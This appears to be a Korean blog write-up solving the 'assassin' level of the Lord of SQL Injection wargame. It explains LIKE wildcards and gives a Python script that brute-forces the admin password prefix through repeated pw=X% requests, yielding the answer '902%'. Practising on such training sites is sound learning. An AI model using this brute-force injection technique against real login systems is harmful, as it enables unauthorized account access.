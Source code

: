 ```yaml
---
title: LOS - 15번 assassin
category: Lord of SQL Injection
---
```


# [15] assassin

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F4y2Uz%2Fbtrnlsurpq9%2FGK4iDgR7Dsvjz5D8GAtD11%2Fimg.png">

## 풀이

또 새로운 유형이다.

<br> 

싱글쿼터 필터링을 우회할 방법이 딱히 보이지 않는다.

이 경우, 아마도 like절의 특성을 이용하여 admin 레코드를 뽑아오는 문제인 것 같았다.

<br>

먼저, like절에 사용되는 패턴에 대해 간단히 표로 정리해보았다.


<table style="width:100%;">
    <thead style="background:rgb(218, 139, 139);">
        <tr style="height: 20px; color:white">
            <th style=" padding:10px; text-align: center;" colspan="2">SELECT * FROM 테이블 WHERE 컬럼 LIKE [PATTERN]</th>
        </tr>
    </thead>
    <tbody style="text-align:center;">
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%</td>
            <td style="padding:10px;">모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">_</td>
            <td style="padding:10px; background:#EEEEEE;">한 글자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">A%</td>
            <td style="padding:10px;">A로 시작하는 모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%A</td>
            <td style="padding:10px; background:#EEEEEE;">A로 끝나는 모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%A%</td>
            <td style="padding:10px;">A를 포함하는 모든 문자</td>
        </tr>
    </tbody>
</table>


<br>

패턴을 살펴보니, pw=% 를 입력할 시 해당 테이블의 첫번째 레코드를 뽑아오게 될 것 같았다.

(∵ 모든 데이터가 해당 조건을 만족하므로)

<br>

보통 테이블의 첫번째 레코드는 admin 계정이기 때문에 설마하는 마음으로 한번 입력해봤다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FZhKZn%2FbtrnjE9XUK5%2F1pVZviULToqZHTmyKVECv1%2Fimg.png">

<br>

첫번째 레코드는 guest 계정이었다.

<br>

어떻게 admin을 뽑아올 지 고민한 결과.. 내리게 된 결론은 Brute Force 였다.

pw의 첫번째 자리에 0% ~ Z% 모든 경우의 수를 대입하여 Hello admin이 뜨는 경우를 찾는 것이다.

<br>

다만 이 방법을 사용할 때는 반드시 고려해야할 점이 있는데,

guest 계정과 admin 계정의 pw 앞부분이 겹칠 수 있다는 점이다.

<br>

때문에 적절한 대처 방법이 필요한데... 자세한 내용은 아래의 코드를 보면서 설명한다.

<br>

다음은 이번 문제를 풀기 위해 짜본 **Python 자동화 코드**이다.

```python
import requests

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"
cookie = "spin7uv9vl2fjnjet0tsug5eb6"
head = {"PHPSESSID":f"{cookie}"}

guest = ""
admin = ""
finish = False

print("💘 Brute Force를 시작합니다")

for len in range(1, 30):
    if (finish==True):
        break
    print(f"{len}번째 문자에 대해 검색중입니다..")
    for ran in range(48, 127):
        search = guest+chr(ran)
        param = f"?pw={search}%"
        my_url = url+param
        res = requests.get(my_url, cookies=head)
        if ("Hello admin" in res.text):
            admin = search+"%"
            print(f"👏 적절한 검색어는 {admin}입니다!")
            finish = True
            break
        elif ("Hello guest" in res.text):
            guest += chr(ran)
            break
```

[0] 먼저, 빈 문자열인 guest와 admin을 선언해준다.

<br>

[1-1] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest(빈 문자열)+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[1-2] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 admin 계정과 guest 계정의 pw 첫번째 문자가 겹친다는 뜻이다. 둘의 문자가 같을 시 테이블 상 첫번째 레코드인 guest 계정이 fetch 되기 때문이다.

<br>

[2-1] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[2-2] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- 첫번째 루프에서와 마찬가지로, Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 두 계정의 pw 두번째 문자가 겹친다는 뜻이다.

<br>

이하는 동일한 로직으로 반복된다.

결국 해당 코드는 admin과 guest의 pw가 달라지는 지점의 admin의 앞자리를 출력하게 된다.

<br>

예를 들어,

admin pw : 123abc

guest pw : 123xyz

인 경우,

123a% 를 출력하고 종료되는 것이다.

출력문은 admin의 pw에 대한 적절한 검색어로 사용될 수 있다.

<br>

다음은 해당 코드의 실행 결과다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FmrP39%2FbtrnrjiteWP%2Flw2kiIcXMwaBwDksWvchJk%2Fimg.png">

Brute Force 결과, 적절한 검색어는 `902%` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fna0E6%2FbtrnoCXQ4Zi%2FntHXLfVKKBgbIcuxuF6Ky1%2Fimg.png">